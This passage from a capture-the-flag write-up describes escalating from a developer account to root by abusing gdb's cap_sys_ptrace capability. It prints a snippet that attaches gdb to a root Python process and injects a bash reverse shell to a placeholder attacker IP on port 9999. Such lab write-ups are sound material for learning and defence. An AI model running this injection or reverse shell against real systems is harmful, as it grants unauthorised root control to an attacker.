 Running whoami and id confirms that we are now developer.

### Stage 2: Developer to Root

I ran the same checks as before and nothing interesting was there. I then decided to check capabilities as they are a sneaky way box creators like to get under the radar.

`getcap -r / 2>/dev/null`

Do not, I repeat DO NOT, forget to redirect errors to /dev/null. Your terminal will look awful and become basically unreadable.

```s
Capabilities
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gdb = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

Now most of these look fairly normal but gdb having a capability is not something that you see as standard. GDB is the GNU Debugger used primarily for debugging C programs, very useful when combined with gef in reverse engineering but I digress.

### Exploiting gdb

The first thing I do when I get given a capability (or anything similar SUID, sudo, SGID etc) is check GTFObins

[https://gtfobins.github.io/gtfobins/gdb/#capabilities](https://gtfobins.github.io/gtfobins/gdb/#capabilities)

Now unfortunately just running the GTFObins command doesn't work. However it did make me think about some interesting things. On GTFObins the capability is setuid whereas on this box it is cap_sys_ptrace+ep. Googling this shows that we can inject shell code into a running program [Source](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/). Now we just need to pick a program to inject into. 

Running ps aux lists out every current running program and who is running it. We want one that is runing as root. Looking through this list I spot networkd-dispatcher which is a python process. Googling this led me to a Microsoft article on a vulnerability dubbed Nimbuspwn. While this isn't the direct answer it does give some inspiration on how to do this. After some trial and error I came up with this:

```sh
export PID=$(ps aux | grep -i "^root.*python3" | awk '{print $2}')
gdb -p $PID # attaches to the python process running the networkd-dispatcher
call (void)system("bash -c 'bash -i >& /dev/tcp/{attacker_ip}/9999 0>&1'") # creates a reverse shell
```

Essentially we're finding the PID which the python process running as root and attaching gdb to it. We're then calling a bash reverse shell command inside this process.

On our attacker machine we need to setup a listener
